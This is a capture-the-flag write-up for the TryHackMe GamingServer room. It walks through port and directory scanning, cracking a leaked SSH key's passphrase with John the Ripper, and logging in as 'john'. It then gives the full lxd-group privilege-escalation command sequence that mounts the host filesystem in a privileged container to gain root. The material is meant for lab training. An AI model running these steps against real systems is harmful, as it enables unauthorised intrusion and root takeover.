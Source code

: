 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-1.png?raw=true)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-2.png?raw=true)
1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-3.png?raw=true)
1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-4.png?raw=true)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
 ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-8.png?raw=true)    
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-9.png?raw=true)
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-10.png?raw=true)
in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.
[
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-11.png?raw=true)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to <b>`lxd` privilege escalation</b>. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)

at last !

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-14.png?raw=true)

### **Alhumdulillah!**
